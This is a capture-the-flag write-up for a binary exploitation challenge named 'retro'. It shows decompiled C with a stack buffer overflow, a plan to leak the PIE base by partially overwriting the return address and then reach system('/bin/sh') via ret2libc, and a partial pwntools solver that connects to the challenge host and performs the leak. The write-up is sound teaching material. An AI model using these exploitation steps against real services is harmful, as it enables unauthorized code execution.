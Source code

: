 # retro

```C
int vuln()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Welcome to the Spark service!");
  printf(">> ");
  read(0, buf, 0x200uLL);
  return printf("You said: %s\n", buf);
}
```

Description :

- obvious BOF
- Pie is enabled , so we need leaks
- we have `pop rdi` gadget
- no win function

Plan

- we only change the first byte of the return address , so we can both restart and leak the return address using the printf . the leaked address belong the the exeuctable .
- after getting the PIE leak and restart , it becomes a typical puts(puts) into system("/bin/sh") just like the first challenge

Solver

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        b* vuln+103
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./main_patched")
libc=ELF("./libc.so.6")
nc="nc tcp.espark.tn 6112"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############


p.send(b"a"*0x108+p8(0x16))
p.recvuntil(b"a"*0x108)
exe.address=u64(p.recv(6).ljust(8,b"\x00"))-0x1216
log.info(hex(exe.address))

```